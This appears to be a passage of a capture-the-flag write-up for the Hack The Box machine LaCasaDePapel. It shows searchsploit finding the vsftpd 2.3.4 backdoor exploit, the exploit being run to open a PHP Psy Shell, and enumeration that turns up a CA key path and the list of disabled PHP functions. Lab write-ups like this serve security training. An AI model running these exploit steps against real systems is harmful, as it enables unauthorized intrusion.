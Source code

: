 
## PORT 21

Using searchsploit to look for a exploit.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/lacasadepapel]
└─$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                  | unix/remote/17491.rb
------------------------------------------------------------------------ ---------------------------------
```

First I tried to use metasploit but it did not work so I used the python script. Running the exploit gave us a shell in psy.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/lacasadepapel]
└─$ ./49757.py 10.10.10.131
Success, shell opened
Send `exit` to quit shell
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
ls
Variables: $tokyo
show $tokyo
  > 2| class Tokyo {
    3|  private function sign($caCert,$userCsr) {
    4|          $caKey = file_get_contents('/home/nairobi/ca.key');
    5|          $userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6|          openssl_x509_export($userCert, $userCertOut);
    7|          return $userCertOut;
    8|  }
    9| }

exec(whoami)
PHP Fatal error:  Call to undefined function exec() in Psy Shell code on line 1
```

We find a variable which gives us some info like a username `nairobi` who owns a file `ca.key`. But on trying get command execution gives us error.
I tried to use some more php functions to get command execution but they all gave the same error.
On using `phpinfo()` I found that some function are disabled so we cannot use them.

```bash
disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
``` 
